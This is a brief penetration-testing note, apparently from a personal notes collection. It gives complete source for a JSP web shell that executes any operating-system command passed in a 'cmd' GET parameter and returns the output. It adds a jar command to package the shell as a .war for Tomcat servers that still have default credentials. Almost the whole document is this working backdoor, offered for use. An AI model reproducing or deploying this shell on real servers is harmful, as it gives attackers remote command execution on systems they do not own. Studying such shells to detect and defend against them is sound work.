 # Java Shells

## JSP Shell
These can be used for example on tomcat servers with standard credentials, as metasploit's war shells often don't work.

```
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
out.println("Command: " + request.getParameter("cmd") + "<BR>");
Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
OutputStream os = p.getOutputStream();
InputStream in = p.getInputStream();
DataInputStream dis = new DataInputStream(in);
String disr = dis.readLine();
while ( disr != null ) {
out.println(disr);
disr = dis.readLine();
}
}
%>
</pre>
</BODY></HTML>
```

To create the .war file use `jar -cvf <name>.war * `

tags: #windows #programming #java #snippets #pentest #webshell #tomcat 
